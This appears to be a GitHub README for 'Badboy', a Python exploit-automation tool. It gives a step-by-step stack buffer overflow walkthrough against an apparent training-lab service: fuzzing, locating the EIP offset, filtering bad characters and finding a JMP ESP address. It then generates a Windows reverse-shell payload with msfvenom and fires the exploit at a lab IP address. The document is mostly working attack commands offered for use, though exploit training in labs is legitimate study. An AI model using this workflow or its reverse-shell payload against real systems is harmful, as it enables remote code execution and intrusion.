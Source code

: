 # Badboy


## Fuzzing

In order to Fuzz the application we need to select the connection type and also supplying the IP, Port and Prefix.
The Prefix can be HTTP POST parameters or a command from a program, e.g in that context Help would be the Prefix: 
```
HELP AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```
python3 Badboy.py --mode fuzz -c raw-tcp [IP] [PORT] [PREFIX]
```
![Fuzzing](img/fuzz.png)
## Injecting Cyclic Pattern in order to Control EIP
From the previous step, we can see that the service crashed at 1500 bytes.
I then decided to generate a cyclic pattern of 1600 bytes (100 bytes more), just in case.
```
msf-pattern_create -l 1600 | python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" --cpattern 1
```
![Inject Cyclic PAttern](img/inject-a-cyclic-pattern-from-stdin.png)
```
msf-pattern_offset -l 1600 -q "35794234"
```
![Get Offset](img/get-offset-from-cyclic-chars.png)
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514
```
![Check Offset](img/checking-offset-for-eip.png)

By default if you have the good offset, Badboy will put the character "CCCC" or "43434343" in hex in the EIP register
If you see this value, that means that you have the good offset and you have controlle EIP, you can move to the next step.
![Check controlled EIP](img/eip-controlled.png)

## Testing and Filtering Bad Char

Bad char can be filtered quickly and easily directly from the shell.
Simply start by providing the Bad char (\x00) or "00" in our case.
All Badchars needs to be coma seperated like followed : 
```
-b "00,41,2f"
```
```
python3 Badboy.py --mode inject -c raw-tcp [IP] [PORT] [PREFIX] -off [OFFSET] -b [BADCHARS] 
```
![Badchar1](img/inject-testing-badchar-1.png)

Repeat the process until every Bad chars have been filtered out.
![Badchar2](img/inject-testing-badchar-2.png)
![Badchar3](img/inject-testing-badchar-3.png)
![Badchar4](img/inject-testing-badchar-4.png)
![Badchar5](img/inject-testing-badchar-5.png)

## Finding a JMP ESP instruction
Now we need to find a JMP ESP address that doesn't contain 1 of the bad characters found earlier.
In Immunity Debugger, type the following command in the command box:
```
!mona jmp -r esp -cpb "\x00\x04\x3e\x3f\xe1"
```
Don't forget to revert the bytes of the address, since it is little endian.
E.g : 625011d3 becomes d3115062

## Creating Shellcode
We can now generate our shellcode with every bad characters found in order to exclude them from our shellcode

```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -f c -b "\x00\x04\x3e\x3f\xe1"
```

## Trigger the Exploit 
Once you have the eliminated all the Bad chars, that you have your Offset and your have the value of EIP.
Put the Shell code in the place reserved for it in the script and fire the exploit like the screenshot below: 
```
python3 Badboy.py --mode inject -c raw-tcp 10.10.112.205 1337 "OVERFLOW9" -off 1514 -eip 'd3115062'
```
![Fuzzing](img/inject-trigger-shell.png)
